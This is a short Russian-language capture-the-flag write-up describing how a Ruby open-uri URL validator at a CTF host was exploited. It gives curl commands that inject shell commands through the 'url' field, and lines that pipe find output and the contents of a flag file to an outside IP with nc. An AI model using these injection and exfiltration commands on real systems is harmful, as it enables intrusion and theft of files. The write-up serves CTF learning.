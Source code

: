 1. Указываем в качестве ссылки ip:port нашего сервера с nc. Видим GET запрос с юзер-агентом руби. 20-30 минут на безуспешную попытку поиграть с кодами ответов
и содержимым ни к чему не приводят.
2. Дальше гугл -> ruby open url -> open-uri vulnerability -> первая же ссылка на хабр..

3. Проверяем
```bash
curl 'http://validator.ctf2019.rocks/validate/' --data 'url=| ls'
```
4. Пробуем вывод в nc
```bash
nc -lvp 4444
curl 'http://validator.ctf2019.rocks/validate/' --data 'url=| find / -iname "flag" | nc 89.163.129.121 4444'
curl 'http://validator.ctf2019.rocks/validate/' --data 'url=| cat /opt/validator/flag | nc 89.163.129.121 4444'
```
5. Допы в /opt/validator/app.rb